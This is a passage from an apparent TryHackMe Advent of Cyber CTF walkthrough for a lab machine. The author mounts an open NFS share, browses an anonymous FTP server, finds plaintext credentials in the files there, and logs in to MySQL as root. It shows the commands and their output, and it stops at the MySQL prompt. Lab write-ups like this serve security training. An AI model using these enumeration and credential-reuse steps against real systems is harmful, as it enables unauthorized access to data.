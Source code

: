 NFS is open and we can see what directories are available for us to mount:

```#!/usr/bin/env bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ sudo showmount -e $IP
Export list for 10.10.133.181:
/opt/files *
```

Looks like we can mount `/opt/files`, so we create a local directory `nfs` and mount the share:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ sudo mount $IP:/opt/files nfs
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ ls
file.txt  nfs  nmap  welcome.msg
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ cd nfs
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications/nfs$ ls
creds.txt
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications/nfs$ cat creds.txt
the password is securepassword123
```

### 2 - What is the name of the file running on port 21?
FTP is open with Anonymous login:

```bash
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0              67 Dec 10 22:50 .
drwxr-xr-x    4 0        0              67 Dec 10 22:50 ..
-rwxrwxrwx    1 0        0              39 Dec 10 23:19 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
```

We can grab down some of these files. In `file.txt` we see some potential SQL creds:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ cat file.txt
remember to wipe mysql:
root
ff912ABD*
```

### 3 - What is the password after enumerating the database?
Connect to MySQL using the password found in `file.txt`:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ mysql -h $IP -u root -p'ff912ABD*' -P 3306
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
